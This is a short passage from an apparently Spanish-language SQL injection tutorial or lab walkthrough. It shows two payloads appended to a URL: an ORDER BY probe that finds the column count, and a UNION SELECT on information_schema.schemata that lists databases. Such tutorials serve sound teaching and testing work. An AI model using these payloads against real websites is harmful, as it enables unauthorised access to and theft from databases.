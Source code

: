 <br>
Por lo que parece, esta tabla tiene 11 columnas. Vamos a comprobarlo.

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">ORDER BY 11;#</font></pre>

![prueba_3](/assets/img/screens/prueba_3.png)
Efectivamente, tiene 11 columnas.

<br>
Visualizando bases de datos:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">UNION SELECT 1,2,3,4,5,6,schema_name,8,9,10,11 FROM information_schema.schemata;#</font></pre>
